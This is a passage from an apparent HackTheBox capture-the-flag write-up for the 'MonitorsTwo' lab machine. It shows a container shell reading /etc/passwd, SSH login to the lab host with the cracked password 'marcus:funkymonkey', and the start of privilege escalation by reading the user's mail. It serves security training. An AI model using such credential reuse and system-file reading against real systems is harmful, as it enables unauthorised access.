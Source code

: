 ### Escaping the docker container

We have a successful crack as `marcus:funkymonkey`. However, checking our shell's /etc/passwd shows that no user marcus currently exists:
```
root@50bca5e748b0:/# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
root@50bca5e748b0:/# 
```
This is because in this docker container, the contents are isolated from the host system. However with ssh open, we can use this entrypoint if marcus is a legitimate user on the main system:
```
$ ssh marcus@10.10.11.211 
The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.211' (ED25519) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

<...SNIP...>

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ 

```

## Privilege Escalation
### Finding system vulnerabilities discussed in mail
We successfully login, and note that we are told we have some mail. For HackTheBox systems, this is usually no coincidence, so let's check the mail contents first.
```
marcus@monitorstwo:~$ cat /var/mail/marcus 
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

```